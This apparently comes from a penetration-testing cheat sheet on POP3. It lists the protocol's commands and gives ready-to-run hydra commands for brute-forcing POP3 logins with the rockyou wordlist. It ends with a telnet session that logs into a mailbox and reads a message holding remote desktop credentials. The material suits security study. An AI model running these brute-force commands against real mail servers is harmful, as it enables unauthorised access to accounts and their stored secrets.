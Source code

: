```yaml
---
legal-banner: true
---
```


### **POP3 BASICS**

1.  Purpose: An application layer protocol used for retrieving email messages from a mail server.
2.  Port: Operates on TCP port 110.
3.  Model: Follows a client-server model, where the client connects to the mail server to retrieve emails.

### **POP3 COMMANDS**

1.  USER: Identifies the username or email address of the client.
2.  PASS: Provides the password for authentication.
3.  LIST: Retrieves a list of all emails on the server, along with their sizes.
4.  RETR: Retrieves a specific email from the server based on its index.
5.  DELE: Marks a specific email for deletion on the server.
6.  NOOP: No operation command, used to keep the connection alive.
7.  QUIT: Terminates the POP3 session and closes the connection.

### **BRUTE-FORCING POP3 CREDENTIALS**

1. Unknown User
	`hydra -L user.txt -p "Password" -f [TARGET-IP] pop3`
2. Unknown Password
	`hydra -l user -P /opt/rockyou.txt -f [TARGET-IP] pop3`
3. Unknown User and Password
	`hydra -L user.txt -P /opt/rockyou.txt -f [TARGET-IP] pop3`
4. Different Port
	`hydra -l user -P /opt/rockyou.txt -f [TARGET-IP] pop3 -s 9999`

### **POP3 RESPONSES**

1.  +OK: Indicates a successful response from the server.
2.  \-ERR: Indicates an error response from the server.

### **EXAMPLE**

```
hackfast@kali:~$ telnet [IP-ADRESS] 110
 +OK alpha POP3 service (JAMES POP3 Server 2.3.2) active
 USER mrrobot
 +OK
 PASS secretpassword
 +OK Welcome mrrobot

 list

 +OK 2 1807
 1 786
 2 1021

 retr 1

 +OK Retrieving message
 From: mrrobot@hackfa.st
 Hello Mr. Robot,

 Below is your remote desktop login info. Please remember it!
 username: mrrobot
 password: S3cur3P@ssw0rd
```